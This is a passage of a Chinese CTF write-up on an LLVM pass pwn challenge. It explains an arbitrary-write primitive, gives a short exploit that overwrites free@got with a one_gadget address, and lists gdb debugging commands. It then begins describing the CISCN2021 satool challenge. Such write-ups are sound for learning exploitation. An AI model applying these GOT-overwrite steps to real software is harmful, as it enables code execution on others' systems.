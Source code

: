 ③找到漏洞，写攻击exp  
  
store(1),将reg1存的地址指向的地方赋值为reg2中的值，这里就有任意地址写。  
  
load(1)，将reg2赋值为reg1中的地址指向的值，可以把libc写进去。  
  
add和min可以对reg里的值进行加减，相当于任意修改  
  
查看一下opt的保护  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Lfu0ibJ4wwJcfWptkASpNOHKhJ4QYibgzY7UtNFENEC9JsuL7icW6OOWWh9hyonBb7icvl5ibODoX3eskA/640?wx_fmt=other&from=appmsg "null")  
  
  
没有开pie  
  
所以，攻击思路如下  
  
reg初始值都为0，首先将reg1通过add函数改为free函数的got表，再通过load函数将reg1中的地址指向的值赋值给reg2，再通过add或者min函数将reg2中的地址修改为one_gadget的地址，再通过store函数将reg2的值赋值给reg1存的地址指向的地方即free的got表  
```
add(1,free.got)
load(1)
add(2,ogg - free)
store(1)
```  
  
gdb调试  
```
gdb opt-8
set args -load ./VMPass.so -VMPass ./exp.ll
b main
b *0x4bb7e3
b *(0x7f11c1a00000+0x73EE)
tele 0x7f11c1a00000+0x20E580
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Lfu0ibJ4wwJcfWptkASpNOHKwxhIG3kWgNhTDdv3CpAOOibeYfMBR4avhZBZkcOTZdbAvSNZpucUC8g/640?wx_fmt=other&from=appmsg "null")  
  
  
调试到这里，.so已经加载好了  
  
下断点调试即可  
  
调试可以看到成功修改free@got为one_gadget，但是三个都打不通，libc不同  
### 2.CISCN2021 satool  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Lfu0ibJ4wwJcfWptkASpNOHKWrl5VHQeGTPyotMHQvhZst4CyEqcK0IQ5t54rSJ9Lo4IibScXMlpMWQ/640?wx_fmt=other&from=appmsg "null")  
  
  
PASS注册名称为SAPass  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Lfu0ibJ4wwJcfWptkASpNOHK5MvZssFORYKYNXkjvkhKhQZ9gzpkiaNVQ0ADvaoe6TgKwf8ydWu4AvQ/640?wx_fmt=other&from=appmsg "null")  
  
  
函数名B4ckDo0r  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Lfu0ibJ4wwJcfWptkASpNOHKKX2U6HpLJDmicpBCW1DzWM3KRWgvsbbSTl8WGFFmECnVCClIhvkacuw/640?wx_fmt=other&from=appmsg "null")  
  
  